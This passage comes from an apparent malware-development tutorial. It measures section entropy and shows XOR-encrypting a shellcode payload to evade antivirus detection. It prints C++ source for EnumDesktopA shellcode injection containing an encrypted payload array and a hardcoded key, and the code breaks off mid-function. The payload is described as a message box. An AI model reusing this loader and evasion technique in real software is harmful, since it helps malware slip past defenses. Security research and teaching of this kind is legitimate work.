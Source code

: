 ![shannon](/assets/images/79/2022-11-07_06-18.png){:class="img-responsive"}     

I uploaded this file to [VirusTotal](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/details), which also calculate sections' entropy:      

![shannon](/assets/images/79/2022-11-07_06-22.png){:class="img-responsive"}     

As you can see our script is worked perfectly!      

I wonder what the Shannon entropy will show if we use [one](/tutorial/2021/09/04/simple-malware-av-evasion.html) of our AV evasion tricks?     

I just create `XOR` - encrypted payload from `meow.bin` for simplicity:     

![shannon](/assets/images/79/2022-11-07_07-05.png){:class="img-responsive"}     

Also add decryption function (`hack2.cpp`):     

```cpp
/*
 * hack.cpp - run shellcode via EnumDesktopA. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox encrypted
  { 0x91, 0x31, 0xf2, 0x91, 0x80, 0x9a, 0x8d, 0x8c, 0x8d, 0xb3, 0x72,
    0x65, 0x74, 0x2a, 0x34, 0x38, 0x3d, 0x2b, 0x22, 0x23, 0x38, 0x54,
    0xa0, 0x16, 0x2d, 0xe8, 0x20, 0x5, 0x4a, 0x23, 0xee, 0x2b, 0x75,
    0x47, 0x3b, 0xfe, 0x22, 0x45, 0x4c, 0x3b, 0xee, 0x11, 0x22, 0x5b,
    0x3c, 0x64, 0xd2, 0x33, 0x27, 0x34, 0x42, 0xbc, 0x38, 0x54, 0xb2,
    0xdf, 0x59, 0x2, 0xe, 0x67, 0x58, 0x4b, 0x24, 0xb8, 0xa4, 0x74,
    0x32, 0x74, 0xb1, 0x87, 0x9f, 0x21, 0x24, 0x32, 0x4c, 0x2d, 0xff,
    0x39, 0x45, 0x47, 0xe6, 0x3b, 0x4f, 0x3d, 0x71, 0xb5, 0x4c, 0xf8,
    0xe5, 0xeb, 0x72, 0x65, 0x74, 0x23, 0xe0, 0xb9, 0x19, 0x16, 0x3b,
    0x74, 0xa0, 0x35, 0x4c, 0xf8, 0x2d, 0x7b, 0x4c, 0x21, 0xff, 0x2b,
    0x45, 0x30, 0x6c, 0xa9, 0x90, 0x29, 0x38, 0x9a, 0xbb, 0x4d, 0x24,
    0xe8, 0x46, 0xed, 0x3c, 0x6a, 0xb3, 0x34, 0x5c, 0xb0, 0x3b, 0x44,
    0xb0, 0xc9, 0x33, 0xb2, 0xac, 0x6e, 0x33, 0x64, 0xb5, 0x53, 0x85,
    0xc, 0x9c, 0x47, 0x3f, 0x76, 0x3c, 0x41, 0x7a, 0x36, 0x5c, 0xb2,
    0x7, 0xb3, 0x2c, 0x55, 0x21, 0xf2, 0x2d, 0x5d, 0x3a, 0x74, 0xa0,
    0x3, 0x4c, 0x32, 0xee, 0x6f, 0x3a, 0x5b, 0x30, 0xe0, 0x25, 0x65,
    0x24, 0x78, 0xa3, 0x4b, 0x31, 0xee, 0x76, 0xfb, 0x2d, 0x62, 0xa2,
    0x24, 0x2c, 0x2a, 0x3d, 0x27, 0x34, 0x23, 0x32, 0x2d, 0x31, 0x3c,
    0x33, 0x29, 0x2d, 0xe0, 0x9e, 0x45, 0x35, 0x39, 0x9a, 0x99, 0x35,
    0x38, 0x2a, 0x2f, 0x4e, 0x2d, 0xf9, 0x61, 0x8c, 0x2a, 0x8d, 0x9a,
    0x8b, 0x36, 0x2c, 0xbe, 0xac, 0x79, 0x73, 0x75, 0x70, 0x5b, 0x3a,
    0xfe, 0xf0, 0x9d, 0x72, 0x65, 0x74, 0x55, 0x29, 0xf4, 0xe8, 0x70,
    0x72, 0x75, 0x70, 0x2d, 0x43, 0xba, 0x24, 0xd9, 0x37, 0xe6, 0x22,
    0x6c, 0x9a, 0xac, 0x25, 0x48, 0xba, 0x34, 0xca, 0x95, 0xc7, 0xd1,
    0x33, 0x9c, 0xa7, 0x28, 0x11, 0x4, 0x12, 0x54, 0x0, 0x1c, 0x1c,
    0x2, 0x51, 0x65, 0x4f, 0x2d, 0x4b, 0x4d, 0x2c, 0x58, 0x74 };


// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
```